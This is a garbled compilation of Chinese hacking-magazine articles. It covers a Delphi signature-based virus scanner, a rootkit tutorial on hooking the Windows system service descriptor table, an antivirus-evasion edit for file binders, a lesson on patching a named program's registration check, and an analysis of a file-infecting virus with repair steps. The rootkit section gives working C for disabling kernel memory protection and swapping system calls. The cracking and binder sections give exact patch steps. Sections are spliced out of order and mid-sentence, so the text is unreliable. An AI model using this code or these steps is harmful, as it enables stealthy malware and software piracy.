| Cbegin | 文本 | 特征码起始位置（16 进制） |
| Cend | 文本 | 特征码结束位置（16 进制） |
| Code | 文本 | 特征码串 |
| State | 文本 | 备注 |

图 2 病毒数据库结构

你可能会问字段 Cbegin 和 Cend 是作何用的，其实 Cbegin 和 Cend 分别是特征码的起始和结束位置，用 16 进制数表示。杀毒软件为了节约系统资源、加快扫描速度，往往只在文件的某个区间范围内寻找某段特征码，这也就解释了为什么有时只加一段花指令就可以达到免杀的目的，因为花指令改变了原有特征码所在的偏移量。

在上述过程中创建了两个对象，写程序犹如做人，要记得善始善终。在窗体关闭的时候触发 OnCloseQuery 事件，我们就在这个事件中释放以上创建的对象，代码如下：

```pascal
procedure TForm1.FormCloseQuery(Sender: TObject; var CanClose: Boolean);
begin
  TmpList.Free;
  MyStream.Free;
end;
```

下面过程的作用是检查文件是否存在病毒库中的特征码。首先打开文件，然后遍历数据库，在相应位置区间匹配特征码，匹配成功返回 True，并向 VsList 中添加病毒信息。参数 FileName 是需要扫描的文件的位置。代码如下：

## 程序编写

程序中用到的 VCL 组件有很多，限于篇幅不能细讲，我只介绍些必须用到的组件。

- rsMain：ADODataSet 和 DataSource1：TDataSource，用于连接数据库，DataSource1 的 DataSet 属性应设置为 rsMain。
- FilePath：TMaskEdit，该文本框中的内容是需要扫描的文件或目录的路径。
- ListVs：TListView，设置 ViewStyle 属性为 vsReport，添加 3 列，分别为：病毒名称、病毒路径及处理方式。
- Stat、TStaticText 和 ProgressBar1：TProgressBar，分别是记录状态信息的文本和进度条。
- Button1：TButton，属性 Caption 为“开始扫描”。你将惊讶地发现，单击这个按钮就开始扫描病毒了。

另外还需要一个用于遍历目录的过程：`procedure GetFileListEx(FilePath, ExtMask: string; FileList: TStrings);`，FilePath 指的是需要遍历的目录（也可以是单个文件）。

```pascal
function TForm1.CheckFile(FileName: string): Boolean;
var
  b: Byte;
  Tempstr: string;
  Pbegin, Pend: Int64;
begin
  Result := False;
  if not FileExists(FileName) then Exit;
  // 用“流”的方式打开文件
  with MyStream do
  begin
    try
      LoadFromFile(FileName);
      rsMain.Open;
    except
      // 如果打不开文件，则在表层给出显示
      V_List:=ListVs.Items.Add;
      // 第一列显示“未知文件”
      V_List.Caption:='未知文件';
      // 第二列显示文件位置
      V_List.SubItems.Add(FileName);
      // 第三列显示“无法访问”信息
      V_List.SubItems.Add('无法访问');
      Result:=False;
      Exit;
    end;
    // 把指针移动到第一条记录
    rsMain.First;

    // 如果当前记录不是记录集的最末尾
    while not rsMain.EOF do
    begin
      rsMain.Next;
      // 将特征码开始和结束的位置转化为十进制，然后赋值给 Pbegin 和 Pend
      Pbegin:=StrToInt('$'+rsMain.FieldByName('Cbegin').AsString);
      Pend:=StrToInt('$'+rsMain.FieldByName('Cend').AsString);
      Position := Pbegin;
      // 如果文件的开始或者结束的位置大于“流”的长度，则退出
      if (Pbegin > Size) or (Pend > Size) then Exit;
      Tempstr:='';
      // 读取指定区间的文件的 16 进制代码，赋值给 TempStr
      while Position < Pend do
      begin
        ReadBuffer(b, 1);
        Tempstr := Tempstr + Format('%.2x', [b]);
      end;
      // 调用 SearchCode 函数判断 Tempstr 是否与数据库中的特征码匹配
      if SearchCode(Tempstr, rsMain.FieldByName('Code').AsString) then
      begin
        // 如果发现病毒则在表 ListVs 中添加病毒信息
        V_List:=ListVs.Items.Add;
        V_List.Caption:=rsMain.FieldByName('Name').AsString;
        V_List.SubItems.Add(FileName);
        if IsDel then
        begin
          DeleteFile(FileName);
          // 如果删除失败，病毒文件还在，要给出提示
          if not FileExists(FileName) then
            V_List.SubItems.Add('已删除')
          else
            V_List.SubItems.Add('无法删除');
        end
        else
          V_List.SubItems.Add('未处理');
        Result:=True;
        Exit;
      end;
    end;
    rsMain.Close;
  end;
end;
```

当你单击“开始扫描”按钮时，会触发以下事件，我们上面的一切准备工作都是为此服务的。代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
var
  i, ALL, Rate: Integer;
begin
  State.Caption:='做一点点准备工作';
  i:=0;
  V_Count:=0;
  TmpList.Clear;
  // 选取所有记录，打开数据库
  rsMain.CommandText:='select * from main';
  rsMain.Open;
  // 遍历目录，取得需要扫描的文件，结果存放在 TmpList 中。程序执行到这里会假死，遍历完成后恢复正常。
  GetFileListEx(FilePath.Text, FileExt, TmpList);
  // 得到要扫描的文件总数
  ALL:=TmpList.Count;
  with ProgressBar1 do
  begin
    // 将进度条置零
    Position:=0;
    while i<ALL do
    begin
      // 每扫描完一个文件 i 就加 1，如果文件有毒，V_Count 就加 1
      if CheckFile(TmpList.Strings[i]) then
        V_Count:=V_Count+1;
      i:=i+1;
      // 函数 floor 对实数进行取整。需添加引用 Math。Rate 是已经完成的百分比，并按比例递进度条的位置
      Rate:=Floor(100*(i/ALL));
      State.Caption:='已经完成：'+IntToStr(Rate)+'%';
      Position:=Rate;
    end;
    Position:=100;
  end;
  State.Caption:='已经完成：100%。共发现了 '+IntToStr(V_Count)+' 个病毒';
  rsMain.Close;
end;
```

从本文您可以学到：

- 简单了解 kernel hook 中的基本概念
- 利用系统服务描述表进入系统内核

# 概述

本文源于 Ric Vieler 著作《Professional Rootkits》的第 3 章 Kernel Hooks，本文的目的就是引导实现一个 kernel hook（内核钩子）。

> 操作系统内核为高级应用程序提供它们所需的底层系统操作功能，通过挂钩内核，一个 rootkit 将能够修改被高级应用程序调用的底层函数。这就为控制、监视和过滤提供了一个方便的机制，同时也提高了隐藏的可能。

本文将包括系统调用表、关于内存保护的考虑、内核钩子宏、内核钩子函数、一个基础的内核钩子示例及内核函数的分类描述。

# 系统调用表

Windows 内核依赖一个函数指针表来实现系统操作，这个表就是系统服务表（system service table），或称作系统服务描述表（service descriptor table）。它可以被修改，使之指向我们指定的函数。本文的重点就是 hook 这个系统函数表。

内核结构 KeServiceDescriptorTable 让任何内核级的进程都能够访问系统调用表，但是修改这个表和调用交替内核函数并不是一件简单的事。本文介绍了那些可以通过装载访问到的函数并给出了测试例子，让你可以自行替换这些内核函数。

系统调用表里包含了很多表项，包括从简单的字符串操作到复杂的客户端/服务器操作，所以不要期望能够学习完整的系统调用列表。记住，对该表指向的函数了解得越多，你对实现内核钩子所做的准备也就越充分。

# 结语

本程序尚有很多不足，例如访问和删除文件的方式过于简单，如果病毒以独占的方式运行或者采取了某种保护技术，便无法访问或者删除病毒文件。但是使用者可自行判断并用冰刃等手工工具进行删除。然而最大的不足在于无法识别病毒的壳与花指令，这无疑是个致命伤。

个人认为，依靠特征码扫描的杀毒技术，即使引入了云安全，也无法追赶上病毒更新的速度。所以能够识别未知病毒的、依据程序的行为判断病毒的第三代病毒扫描技术才是王道。

（文章中所涉及的相关代码及工具都已经收录在本期光盘）

**编辑点评：** 终于看到一篇关于杀毒软件的作品了，难得啊！虽然用的还是第一代的特征码扫描技术，但这是所有杀毒软件的基础，即使是现在流行的云安全，其实也是基于这种原理，只不过不再是特征码扫描，而是文件的 MD5 指纹。就像作者说的，真正先进的是行为判断，比主动防御（HIPS）更智能化，这将是杀毒软件的发展趋势。

# 内核内存保护

在你 hook 内核函数之前，必须考虑防御机制。Windows 操作系统通过将系统调用表标记为只读来实现内核内存的保护，防止用户篡改，这样就能预防内核钩子，但是这只能是针对没有对这个机制做出合理规避的钩子。如图 1，为内存描述列表。

绕开内存保护的关键在于内存描述列表，这个结构的定义可以在微软 Windows 驱动程序开发工具包中的 ntddk.h 里找到，下面的结构和定义就是来自于该文件。

```c
typedef struct _MDL {
    struct _MDL *Next;
    CSHORT Size;
    CSHORT MdlFlags;
    struct _EPROCESS *Process;
    PVOID MappedSystemVa;
    PVOID StartVa;
    ULONG ByteCount;
    ULONG ByteOffset;
} MDL, *PMDL;

#define MDL_MAPPED_TO_SYSTEM_VA 0x0001
#define MDL_PAGES_LOCKED 0x0002
#define MDL_SOURCE_IS_NONPAGED_POOL 0x0004
#define MDL_ALLOCATED_FIXED_SIZE 0x0008
#define MDL_PARTIAL 0x0010
#define MDL_PARTIAL_HAS_BEEN_MAPPED 0x0020
#define MDL_IO_PAGE_READ 0x0040
#define MDL_WRITE_OPERATION 0x0080
#define MDL_PARENT_MAPPED_SYSTEM_VA 0x0100
#define MDL_FREE_EXTRA_PTES 0x0200
#define MDL_IO_SPACE 0x0800
#define MDL_NETWORK_HEADER 0x1000
#define MDL_MAPPING_CAN_FAIL 0x2000
#define MDL_ALLOCATED_MUST_SUCCEED 0x4000

#define MDL_MAPPING_FLAGS (MDL_MAPPED_TO_SYSTEM_VA | \
    MDL_PAGES_LOCKED | \
    MDL_SOURCE_IS_NONPAGED_POOL | \
    MDL_PARTIAL_HAS_BEEN_MAPPED | \
    MDL_PARENT_MAPPED_SYSTEM_VA | \
    MDL_SYSTEM_VA | \
    MDL_IO_SPACE)
```

内存描述列表（Memory Descriptor Lists，MDLs）用于将虚拟内存映射到物理页。如果系统调用表所在内存的 MDL 下的 MDLFlags 成员被设置为 MDL_MAPPED_TO_SYSTEM_VA，并且物理分页是锁定的，内核钩子就是可实现的。

下面的代码片段将演示如何实现：

```c
#pragma pack(1)
typedef struct ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t, *PServiceDescriptorTableEntry_t;
#pragma pack()

__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;

PVOID* NewSystemCallTable;
PMDL pMyMDL = MmCreateMdl(NULL,
    KeServiceDescriptorTable.ServiceTableBase,
    KeServiceDescriptorTable.NumberOfServices * 4);
MmBuildMdlForNonPagedPool(pMyMDL);
pMyMDL->MdlFlags = pMyMDL->MdlFlags |
    MDL_MAPPED_TO_SYSTEM_VA;
NewSystemCallTable = MmMapLockedPages(pMyMDL, KernelMode);
```

挂钩过程中，你能使用新的系统调用表（NewSystemCallTable）。如图 2，为展示的系统调用表。

我们可以考虑使用下列的宏进行挂钩。

```c
#define HOOK_INDEX(function2hook) *(PULONG)((PUCHAR)function2hook+1)

#define HOOK(functionName, newPointer2Function, oldPointer2Function) \
    oldPointer2Function = (PVOID) InterlockedExchange((PLONG) \
    &NewSystemCallTable[HOOK_INDEX(functionName)], (LONG) \
    newPointer2Function)

#define UNHOOK(functionName, oldPointer2Function) \
    InterlockedExchange((PLONG) &NewSystemCallTable[HOOK_INDEX(functionName)], (LONG) oldPointer2Function)
```

如图 3，展示的是挂钩系统调用表。

KeServiceDescriptorTable（系统调用表）结构包含了 ntdll.dll 中的所有函数指针，并且提供了创建自定义的内存描述列表所需的基地址和表的大小。一旦使用 MDL_MAPPED_TO_SYSTEM_VA 标志创建了一个不分页的 MDL，就可以锁定它并使用其返回地址作为你自己的系统调用表（可写入）。

`#define` 宏的使用使得挂钩更加安全且简单。InterlockedExchange 函数是一个不需要中断的原子函数，由于使用这个函数，交换指针的方法是安全的。使用一个宏来挂钩，再使用另一个来卸载挂钩的方法也是相当安全的。

# 定义钩子函数

一个内核钩子的基本组成部分有：被挂钩的函数、用于替换被挂钩函数的另一个函数和系统调用表。

前面的部分已经提供了一些宏，我们将在下面的例子里用到。

# 手工打造天衣无缝的捆绑器

边几天天气变得也太快了，因为寒流来袭，南方北方都下大雪！据新闻报道说，有近千万人受灾，虽然我们这里倒还不至于这么严重，但是因为流感，导致很多人都病倒了。看来这主要是天气变化的原因。因为前几天我还穿一件短袖，只是隔了一个晚上，天气就变冷得有点不像话，结果我也病了一个星期，所以还是希望大家一定要注意防寒保暖，这年头是谁都不能病啊！

从本文你可以学习到：

- 如何解决教程遗留的问题

在9月份的“黑手”中，“永不被杀的捆绑器”一文引起了我的注意。我按照文中所示进行操作，捆绑后的效果如图1。

里面的一部分。现在还需要定义一个新函数来取代被挂钩的函数，并定义一个函数指针来存放原有函数的地址。大多数情况下，我们可以在DDK的头文件里找到这类函数的函数原型。

作为一个示例，下面的函数原型取自 ntddk.h 并且稍作修改，改为取代被挂钩函数的新函数。

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwMapViewOfSection(
    IN HANDLE SectionHandle,
    IN HANDLE ProcessHandle,
    IN OUT PVOID *BaseAddress,
    IN ULONG ZeroBits,
    IN ULONG CommitSize,
    IN OUT PLARGE_INTEGER SectionOffset OPTIONAL,
    IN OUT PSIZE_T ViewSize,
    IN SECTION_INHERIT InheritDisposition,
    IN ULONG AllocationType,
    IN ULONG Protect );
```

因此，指向被挂钩的旧函数的指针定义如下：

```c
typedef NTSTATUS (*ZWMAPVIEWOFSECTION)(
    IN HANDLE SectionHandle,
    IN HANDLE ProcessHandle,
    IN OUT PVOID *BaseAddress,
    IN ULONG ZeroBits,
    IN ULONG CommitSize,
    IN OUT PLARGE_INTEGER SectionOffset OPTIONAL,
    IN OUT PSIZE_T ViewSize,
    IN SECTION_INHERIT InheritDisposition,
    IN ULONG AllocationType,
    IN ULONG Protect );

ZWMAPVIEWOFSECTION OldZwMapViewOfSection;
```

代替旧函数的新函数定义如下：

```c
NTSTATUS NewZwMapViewOfSection(
    IN HANDLE SectionHandle,
    IN HANDLE ProcessHandle,
    IN OUT PVOID *BaseAddress,
    IN ULONG ZeroBits,
    IN ULONG CommitSize,
    IN OUT PLARGE_INTEGER SectionOffset OPTIONAL,
    IN OUT PSIZE_T ViewSize,
    IN SECTION_INHERIT InheritDisposition,
    IN ULONG AllocationType,
    IN ULONG Protect )
{
    NTSTATUS status;

    DbgPrint("comint32: NewZwMapViewOfSection called!");
    // we can do whatever we want with the input here
    // and return or continue to the original function
    // 这里我们能对函数输入参数做任何想要的变动
    // 直接返回或是继续调用原函数

    status = OldZwMapViewOfSection(SectionHandle,
        ProcessHandle,
        BaseAddress,
        ZeroBits,
        CommitSize,
        SectionOffset OPTIONAL,
        ViewSize,
        InheritDisposition,
        AllocationType,
        Protect );

    // we can do whatever we want with the output here
    // and return any value including the actual one
    // 这里我们能对函数输出做任何想要的变动
    // 返回任何我们想返回的值，也可以返回真实值

    return status;
}
```

上述部分定义完后，我们就可以这样使用：

```c
HOOK(ZwMapViewOfSection, NewZwMapViewOfSection,
    OldZwMapViewOfSection);
```

如果你用了 DriverUnload()，你必须记得卸载钩子。

> 小知识：ZwMapViewOfSection 是一个允许应用程序将输出函数从动态链接库映射到内存的内核函数。挂钩这个函数来修改 DLL 函数映射被称为进程注入或是用户级 hook，这是另一个章节的内容了。

由于篇幅关系，本篇内容只对 Kernel Hooks 作出一个简单的介绍。在下篇中，我们将继续给出一个具体的示例，同时还将对 hook 中的问题及内核函数作出分类讨论。

（文章中所涉及的相关代码及工具都已经收录在本期光盘）

**编辑点评：**

跟着作者的讲解，小编都在慢慢地进入这个神秘的 Rootkit 世界了。这真的是 Rootkit 入门的好教程。

# 黑客免杀

有些安全意识比较强的朋友可能会注意到一个问题：在文件上按鼠标右键，会发现有“用 WINRAR 打开”的选项，如图2。

打开后我们会发现这并不是一个文件，如图3。

所以从这一步起，你就彻底失败了。话说“船到桥头自然直”，我们可以用这个方法来解决这一问题。首先用16进制编辑软件“32Asm”以16进制打开捆绑好的 exe 文件，如图4。

然后按 Ctrl+F 组合键弹出搜索框，选择“搜索类型”为“16进制”，在下面的框中输入“807A0161”，点击“下一个”，会自动找到如图5的值。

这时候我们把 61 改成 22，如图6，然后继续 Ctrl+F，查找“526172211A07”，如图7。

同样把 61 修改成 22，如图8，这样就大功告成了！点击“保存”，我们再来文件上按鼠标右键，结果如图9。

是不是那个讨厌的“用 WINRAR 打开”没有了呢？如果大家还有什么疑问，请到“黑手”论坛与我交流，我的 ID 是 Hacker。

# Cracker 1008

86的冬季教程

最近天气太冷了，结果嘴唇都爆裂了，很久很久没怎么试过这种感觉了。将近年底，经济也开始回暖了，破解界却好像越来越冷清，发帖的依然是那几个发帖的，发教程的依然还是那几个发教程的。最近网上发布的关于破解的教程并不多，但是却能够看到越来越多的精品文章开始涌现。虽然平时都有点忙，但是没事的时候，小编我还是会抽些时间看看这些教程，要不然就会很快落伍。捧着“黑手”杂志的你，是不是也会经常关注一些精品文章呢？

# 每月收藏源

- 1. **反汇编技术（电子版）**

  这本书主要就是讲反汇编，最强大的工具莫过于 IDA 了，近来有很多朋友问我如何使用这个工具，想我出一个关于 IDA 的系列教程，但是由于时间比较紧张，所以这里提供一本电子书供大家学习，希望对各位读者朋友们有所帮助。

- 2. **OllyDbg110 UST_2bg**

  看了这个标题大家可能会觉得不知所云，其实这是一个修改版的 OD，作者是 AnTiCDLoCk。据我所知，有些朋友比较喜欢收集各种不同修改版本的 OD，所以这里提供一个比较新的修改版本给大家，也希望大家用这个版本会比较顺手。

- 3. **VMProtect 1.7—1.8 脱壳视频教程**

  近年来，由于 VMProtect 的发展，用它进行加壳的程序越来越多，而且能处理的程序也越来越大。很多朋友对于这个东西根本就无从下手，在这里小编提供一份旧版的脱壳视频教程给各位破解爱好者学习，希望对大家的脱壳有所帮助。

**编辑点评：** 其实我很喜欢这类的教程补充，因为这样的互动能够解决上篇作者遗留下来的问题。补充教程一是为了解决问题，二是还可以达到真正的技术交流。

# 软件破解入门系列三

## ——基础知识和软件爆破

图 missviola[O.S.T]

从本文你可以学习到：

- 1. 基本汇编指令
- 2. 软件爆破基础

大家好，我们又见面了，不知不觉破解入门系列已经到了第三课。前面两课的内容不知道大家掌握了没有，从这一期开始，我们就要正式讲解软件破解的方法了，一定要先掌握好前面所讲的基础知识哦。废话少说，这一期讲讲软件破解的基础——爆破。

> 何谓爆破呢？我个人的理解就是：通过修改软件的运行流程来达到我们破解软件的最终目的。比如成功注册软件，解除软件的一些功能限制，去除软件的自校验等等。

有些人以为爆破只是菜鸟的专利，其实不然。在面对那些算法流程和对话复杂的软件来说，爆破能更快捷地达到我们的目的。下面，我们先来学习几条进行爆破需要掌握的汇编指令吧。

- 1. **mov 指令**

  格式：`mov a, b`

  功能：将一个源操作数送到目的操作数中，即 a←b。a 为目的操作数，b 为源操作数。

- 2. **jz/je 或 jnz/jne 指令**

  格式：`jz/je addr` 或 `jnz/jne addr`（addr 为地址）

  功能：如果 ZF 标志位符合条件，就跳转到指定地址执行指令。ZF 标志位的值可以为 0 或 1。

这里我打一个比方，可以让大家更直观地理解 ZF 标志位：我们可以把 ZF 标志位比作是考试时候的60分及格线，当我们的考试成绩大于60分的时候，就表示我们合格了；反之如果分数小于60分，那么就表示我们挂课了。在 OllyDbg 的寄存器窗口中可以看到 ZF 标志位的值，当然我们也可以修改它的值来改变软件的跳转。

- 3. **jmp 指令**

  格式：`jmp addr`

  功能：jmp 指令会无条件跳转到目标地址继续执行指令。

- 4. **cmp 指令**

  格式：`cmp a, b`

  功能：将 a、b 两数相减，即用 a 减去 b，然后进行比较。如果两数相减的结果为 0（即两数相等），就将 ZF 标志位置 1，不相等就置 0。cmp 指令只是修改标志位，而不改变 a、b 两数的值。

- 5. **test 指令**

  格式：`test a, b`

  功能：将 a、b 两数进行逻辑与操作。如果结果为 0，就将 ZF 标志位置 1。与 cmp 指令相同，test 指令也只是修改标志位，而不改变 a、b 两数的值。

> 小提示：在了解 test 指令的时候，我们要接触到逻辑与这个新概念，这里我给大家简单介绍一下逻辑与操作。“逻辑与”相当于生活中所说的“并且”，就是两个条件都同时成立的情况下，逻辑与的运算结果才为真。

逻辑运算符有4个，它们分别是：!（逻辑非）、||（逻辑或）、&&（逻辑与）、^（异或）。

逻辑运算用来判断一件事情是对还是错，或者说是成立还是不成立。判断的结果只有这两者，即没有可能是或者可能不是，这个“可能”的用法是一个模糊概念。

在计算机里面进行的是二进制运算，逻辑判断的结果只有两个值，我们称这两个值为逻辑值。用数的符号表示就是1和0，其中1表示该逻辑运算的结果是成立的，如果一个逻辑运算式的结果为0，那么这个逻辑运算式表达的内容不成立。

```text
“逻辑与”的运算方法如下：

1&&1 = 1
1&&0 = 0
0&&0 = 0
```

说了那么多基础性的东西，大家是不是看得有点晕了呢？其实要学习破解，熟练掌握一些汇编指令是很有必要的。下面我们就正式进入实战阶段，用一个简单的小软件来实践一下我们之前所讲过的知识。

今天的目标是“每周电视节目表”这个软件，在破解之前，我们应该先收集一些软件的信息，比如：软件注册失败有何种提示，未注册时有哪些功能限制，软件加了什么类型的壳等等。这些信息对于我们之后进行破解是很有帮助的。

安装好软件以后，我们点击“软件注册”，输入确认码 viola，注册码 123456，软件提示如图1。

从图1中我们得到了软件“注册失败”的错误提示，之后我们可以试用一下软件，发现未注册时只能多即时更新一次节目表，如图2。

现在我们用 PEiD 来查一下软件加了什么类型的壳，结果如图3。

从 PEiD 检测的结果来看，软件是被加上了 APack 的壳。看过以前杂志的读者都应该知道，这是一个比较好脱的压缩壳，我们用对应的脱壳机或者 ESP 定律都可以很轻松地脱掉它。这里就不再给大家讲解如何脱壳了，不明白的大家可以翻翻以前的杂志。

脱壳以后再用 PEiD 扫描，结果如图4。

很明显，软件是使用 Delphi 编写的。至此我们已经收集到了不少软件的信息，下面来进行爆破工作。

首先使用 C32Asm 这款静态分析工具来进行破解，用它打开脱壳后的软件，或者你也可以直接把软件拖拽到 C32Asm 的界面中，如图5。

我们点击菜单栏上的“搜索”，选择“搜索”，或者直接按 **Ctrl+F** 快捷键打开搜索对话框，输入我们找到的错误提示中的“遗憾”字符串，点击“Find”，如图6。

随后，软件就会替我们定位到字符串的对应位置，如图7。

仔细观察这几句汇编指令，我们发现地址 0052F9A1 的指令是跳向注册失败的地方。那么就从这句下手，来修改软件的运行流程，进行爆破。

这里我提供两条修改思路：

第一种：在跳向失败的那条指令下方，我们可以看到注册成功的信息，如果我们修改跳转指令，让软件自己跳向注册成功的地方，不就达到我们的目的了么。

大家还记得我们之前讲过的 jmp 指令么？它会无条件跳向我们指定的地址。注册成功的地址为 0052F9A3，因此我们就可以把 **0052F9A1 的指令修改为 `jmp 0052F9A3`**。

我们在 0052F9A1 这条指令上单击鼠标右键，选择“对应 Hex 编辑”。在跳出的窗口中按鼠标右键，选择“对应汇编模式编辑”，在 0052F9A1 这条指令上再次按鼠标右键，选择“汇编”，会跳出如图8的对话框。

我们输入修改指令为 **jmp 0052F9A3**，然后点击“汇编”，如图9。

修改完成后，点击“文件”－“另存为”，给我们的文件取个名字，点击“保存”即可。然后我们打开修改过的软件，在注册界面输入我们刚才的注册信息，注册成功，如图10。

然后我们可以试一下即时更新节目，发现软件的限制也去除掉了，说明我们的爆破是成功的。这里除了使用 jmp 来修改以外，用我之前说的其他指令也是可以达到爆破的效果。大家可以自己开动脑筋思考一下。

说完了第一种，我们再来说第二种修改方法。这次我们使用 OllyDbg 来进行修改，载入脱壳以后的软件如图11。

在汇编窗口的空白处点击鼠标右键，选择“超级字符串参考”－“查找 ASCII”，打开窗口如图12。

我们找到“遗憾，注册失败！”这段话，双击这条信息来到对应汇编代码处，如图13。

用 OD 调试软件，我们可以实时了解软件的运行流程。在 0052F9A1 这里按一下 F2，下一个断点。也就是说，当软件跳向注册失败的时候，会在这里停下来。

下完断点以后，我们按 F9 运行程序，点击“软件注册”输入之前的注册信息，再点击“确认注册”按钮，发现程序断在了 0052F9A1 这条跳转指令上，并且旁边的红线指向了注册失败的地方。在信息窗口中，我们发现跳转已经实现了，如图14。

> 小提示：在 OllyDbg 中，如果跳转实现的话，就会用红线来表示。如果跳转未实现，就是用灰色的线。我们也可以在信息窗口中看到跳转是否实现的信息。

我在之前讲 jnz 这条汇编指令的时候说过，jnz 指令是根据 ZF 标志位的值来决定是否跳转的。那么我们是不是可以通过修改 ZF 标志位的值，来让软件跳向注册成功的地方呢？答案是肯定的。在 OD 右边的寄存器窗口中，我们可以看到多个标志位的值，如图15。

此时我们发现 ZF 标志位的值为 0，满足了 jnz 指令跳转的条件。现在只需要把 0 改成 1，就可以让 0052F9A1 那条指令失效了。

如何修改呢？我们只需要在那个 0 上面双击一下就可以了。双击以后我们发现，ZF 的值变为了 1，信息窗口中也提示我们跳转未实现。我们用 F8 单步往下走，发现软件跳出了“成功注册”的提示。使用之后也发现软件的限制被解除掉了，说明我们的修改是成功的。

这期的内容到这里就差不多结束了，其实软件爆破的修改方法远远不止我所说的这两种，大家在平时学习的时候一定要多多积累，多开动脑筋思考。只有基础的东西掌握好了，我们才能够更上一层楼。在下期杂志中，我会给大家讲解明码软件的破解，以及内存注册机的制作方法。好了，我们下期再见。

【文章来源涉及到的目标程序和录像教程已收录在光盘中】

# 编辑点评

这是破解入门系列的第二课，很基础的软件爆破解解。虽然“黑手”经常也会刊登一些爆破的文章，但爆破却是一个大学问的课题，软件只要爆破得好，破解一样很完美！而且有些软件也只能使用爆破来解决，这样会比使用注册码来得舒服，因为注册码并不是很容易弄出来的。

# Win32/AutoRun.Agent.NZ 病毒
## 感染文件的简单分析和文件修复

图：obaby

从本文你可以学习到：

- 感染性病毒初步分析

前几天上 QQ 时，Nod32 总是弹出一个窗口，提示发现“Win32/AutoRun.Agent.NZ 蠕虫”。刚开始没在意，以为是浏览网页或者下载程序时保存到临时文件夹下的东西。直到有一天，运行其他的小程序时，发现竟然弹出了同样的提示窗口，这时才意识到自己中招了。

但是郁闷的是，自己却不知道什么时候中的招！而且如果用杀软全盘杀毒的话，只是简单地删除掉感染的文件，这样被感染的文件也就没法修复了。

当时也没搜索什么解决方案，直接拿 OD 就对被感染的文件开刀。今天写这篇文章的主要目的就是简单分析下病毒感染的文件，最终实现被感染文件的挽救，希望能够起到抛砖引玉的作用，给大家处理感染类病毒提供一个解决思路。

关于病毒的相关介绍，大家可以到网上搜索下。整体来说这个病毒是很难完全清除的，由于病毒具有 Exe 感染功能，而且不会改变文件图标，还把病毒代码插入到 PE 文件后，文件变化不明显，因而很难被察觉。

但是每次运行被感染的程序，如果开启了 Nod32 的实时监控，就会看到如图 1 的提示。


这里我们来对比一下程序感染前后的文件体积，如图 2。可以看到，程序在被感染了之后体积增加了 23K。此时用 Nod32 扫描感染的 Exe 文件，会报为蠕虫。病毒的表面特征到这里就算全部清楚了，下面我们开始分析被感染的 PE 程序。

用 PEiD 打开被感染的 Exe 文件，可以看到感染后程序增加了一个区段，区段名为两个点（..），区段起始地址为：D3000。同样可以看到程序的入口点被改成了 D3000，如图 3、图 4。


病毒之所以修改程序入口点，是为了在执行我们原程序之前先执行病毒代码释放病毒文件。对比没有被感染的文件，我们看到原始程序的入口点为：000CA001，并且原程序加了 ASPack 2.12 -> Alexey Solodovnikov 的壳，如图 4。

下面我们开始分析被感染的文件。用 OD 载入被感染的 Exe 程序，其入口点是一个变形 jmp，程序关键代码如下：

```asm
004D30B1        FFD0           call eax
; GetTempPathA，获取当前用户临时目录
004D30B3        8D83 A3034000  lea eax, dword ptr [ebx+4003A3]
; 此时 esp 中保存的为当前路径
004D30B9        50             push eax
004D30BA        8B93 C2034000  mov edx, dword ptr [ebx+4003C2]
004D30C0        52             push edx
004D30C1        FFD7           call edi
; 获取生成 EXE 名称，tmp31.exe
004D30C3        8D8B AC034000  lea ecx, dword ptr [ebx+4003AC]
004D30C9        51             push ecx
004D30CA        8BCC           mov ecx, esp
004D30CC        83C1 04        add ecx, 4
004D30CF        51             push ecx
004D30D0        FFD0           call eax

; 生成目标文件绝对路径
（此处省略部分代码……）
004D30F1        68 000000C0    push C0000000
004D30F6        51             push ecx
004D30F7        FFD0           call eax
; CreateFileA，创建文件
（此处省略部分代码……）
004D3117        BA 4D5A8C00    mov edx, 905A4D
004D311C        8911           mov dword ptr [ecx], edx
004D311E        56             push esi
004D311F        FFD0           call eax
; WriteFile，开始写入文件
004D3121        8D83 D5034000  lea eax, dword ptr [ebx+4003D5]
004D3127        50             push eax
004D3128        8B93 C2034000  mov edx, dword ptr [ebx+4003C2]
004D312E        52             push edx
004D312F        FFD7           call edi
004D3131        56             push esi
004D3132        FFD0           call eax
; 关闭写操作句柄

004D3134        8D83 C6034000  lea eax, dword ptr [ebx+4003C6]
; 运行到这一行就会提示发现病毒了
（此处省略部分代码……）
004D317D        52             push edx
004D317E        FFD0           call eax
; 运行生成的病毒文件
004D3180
```


```asm
8BE5        mov     esp, ebp
004D3182    - E9 7A6EFFFF    jmp 004CA001

; 这个跳到原来程序的入口点，记下 jmp 后的地址，修改文件要用到。
```

到这里插入到 PE 文件中的病毒代码已经完全执行结束了，程序最后的 jmp 跳转完成之后就到了 ASPack 壳的入口点。跟入口 jmp，我们就可以看到经典的 ASPack 入口特征，如图 5。

通过上面的跟踪可以知道，程序释放的目标文件路径以及名称为“C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp\tem81.exe”，这就是为什么每次运行程序都会报警的原因了。

既然明白了病毒的原理，那么我们就可以进行修复了。运行 LordPE，选择 Pe Editor，打开被感染的 Exe 文件，如图 6。

- 1. 修改程序入口点为刚才调试程序时获得的值：000CA001（这里要写入的是虚拟相对地址 RVA = 004CA001 - 00400000 = 000CA001），直接在 EntryPoint 处填入我们得到的值，Save 就可以了。

我们简单地补充下文件虚拟相对地址 RVA 的计算公式：

```text
RVA（相对虚拟地址）= VA（虚拟地址，我们看到的内存中的地址）- ImageBase（基址，文件加载到内存中的起始地址）。
```

- 2. 删除掉病毒增加的那个区段。点 Sections，找到病毒增加的那个区段，一般是最后一个，右键 >> Wipe Section Header 删除即可，如图 7。

- 3. 最后我们来修复下修改后的文件。用 LordPE 的 RebuildPE。

> 【文章所涉及到的目标程序和录像教程已收录在光盘中了】

打开我们修改后的文件，如果没有出错的话会看到如图 8 的提示。

到此我们的修复就算完成了，用 PEiD 载入我们修改完成后的程序就可以正常识别了，如图 9。

现在我们重新运行修改后的程序，Nod32 已经不再提示发现病毒了。至此本文的主要任务已经完成，对于释放的病毒程序，感兴趣的朋友可以分析下。

后记：其实所谓的病毒也没有想象中的那么可怕，程序在感染可执行文件后并没有破坏文件结构，因而我们可以较容易地修复。

